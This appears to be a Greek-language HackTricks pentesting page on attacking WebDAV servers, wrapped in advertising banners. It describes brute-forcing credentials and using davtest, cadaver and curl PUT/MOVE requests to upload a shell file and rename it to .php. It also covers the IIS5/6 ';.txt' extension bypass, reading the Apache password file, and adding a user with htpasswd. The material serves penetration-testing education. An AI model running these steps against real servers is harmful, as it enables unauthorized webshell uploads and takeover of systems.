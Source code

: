 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) για να δημιουργήσετε και να ** αυτοματοποιήσετε ροές εργασίας** που υποστηρίζονται από τα **πιο προηγμένα** εργαλεία της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Όταν ασχολείστε με έναν **HTTP Server με WebDav** ενεργοποιημένο, είναι δυνατόν να **χειριστείτε αρχεία** αν έχετε τα σωστά **διαπιστευτήρια**, που συνήθως επαληθεύονται μέσω **HTTP Basic Authentication**. Η απόκτηση ελέγχου σε έναν τέτοιο server συχνά περιλαμβάνει την **ανέβασμα και εκτέλεση ενός webshell**.

Η πρόσβαση στον server WebDav απαιτεί συνήθως **έγκυρα διαπιστευτήρια**, με το [**WebDav bruteforce**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) να είναι μια κοινή μέθοδος για την απόκτησή τους.

Για να ξεπεράσετε περιορισμούς στην ανέβασμα αρχείων, ειδικά εκείνους που αποτρέπουν την εκτέλεση server-side scripts, μπορείτε να:

* **Ανεβάσετε** αρχεία με **εκτελέσιμες επεκτάσεις** απευθείας αν δεν περιορίζονται.
* **Μετονομάσετε** τα ανεβασμένα μη εκτελέσιμα αρχεία (όπως .txt) σε εκτελέσιμη επέκταση.
* **Αντιγράψετε** τα ανεβασμένα μη εκτελέσιμα αρχεία, αλλάζοντας την επέκτασή τους σε μία που είναι εκτελέσιμη.

## DavTest

**Davtest** προσπαθεί να **ανεβάσει αρκετά αρχεία με διαφορετικές επεκτάσεις** και **ελέγχει** αν η επέκταση είναι **εκτελέσιμη**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

Αυτό δεν σημαίνει ότι οι **.txt** και **.html επεκτάσεις εκτελούνται**. Αυτό σημαίνει ότι μπορείτε να **έχετε πρόσβαση σε αυτά τα αρχεία** μέσω του διαδικτύου.

## Cadaver

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να **συνδεθείτε στον διακομιστή WebDav** και να εκτελέσετε ενέργειες (όπως **ανέβασμα**, **μετακίνηση** ή **διαγραφή**) **χειροκίνητα**.
```
cadaver <IP>
```
## Αίτημα PUT
```
curl -T 'shell.txt' 'http://$ip'
```
## Αίτημα MOVE
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) για να δημιουργήσετε και να **αυτοματοποιήσετε ροές εργασίας** που υποστηρίζονται από τα **πιο προηγμένα** εργαλεία της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDav Ευπάθεια

Αυτή η ευπάθεια είναι πολύ ενδιαφέρουσα. Το **WebDav** **δεν επιτρέπει** να **ανεβάσετε** ή να **μετονομάσετε** αρχεία με την επέκταση **.asp**. Αλλά μπορείτε να **παρακάμψετε** αυτό **προσθέτοντας** στο τέλος του ονόματος **";.txt"** και το αρχείο θα **εκτελείται** σαν να ήταν αρχείο .asp (μπορείτε επίσης να **χρησιμοποιήσετε ".html" αντί για ".txt"** αλλά **ΜΗΝ ξεχάσετε το ";"**).

Στη συνέχεια, μπορείτε να **ανεβάσετε** το shell σας ως αρχείο ".**txt"** και να **αντιγράψετε/μετακινήσετε το σε ένα αρχείο ".asp;.txt"**. Όταν αποκτήσετε πρόσβαση σε αυτό το αρχείο μέσω του web server, θα **εκτελείται** (το cadaver θα πει ότι η ενέργεια μεταφοράς δεν λειτούργησε, αλλά λειτούργησε).

![](<../../.gitbook/assets/image (1092).png>)

## Μετά τα διαπιστευτήρια

Αν το Webdav χρησιμοποιούσε έναν Apache server, θα πρέπει να κοιτάξετε τις ρυθμισμένες τοποθεσίες στον Apache. Συνήθως:\
&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

Μέσα σε αυτό μπορείτε να βρείτε κάτι σαν:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Όπως μπορείτε να δείτε, υπάρχουν τα αρχεία με τα έγκυρα **credentials** για τον **webdav** διακομιστή:
```
/etc/apache2/users.password
```
Μέσα σε αυτούς τους τύπους αρχείων θα βρείτε το **username** και ένα **hash** του κωδικού πρόσβασης. Αυτά είναι τα διαπιστευτήρια που χρησιμοποιεί ο διακομιστής **webdav** για να πιστοποιήσει τους χρήστες.

Μπορείτε να προσπαθήσετε να **crack** τα διαπιστευτήρια, ή να **add more** αν για κάποιο λόγο θέλετε να **access** τον διακομιστή **webdav**:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Για να ελέγξετε αν τα νέα διαπιστευτήρια λειτουργούν, μπορείτε να κάνετε:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Αναφορές

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) για να δημιουργήσετε και να **αυτοματοποιήσετε ροές εργασίας** με τη βοήθεια των **πιο προηγμένων** εργαλείων της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
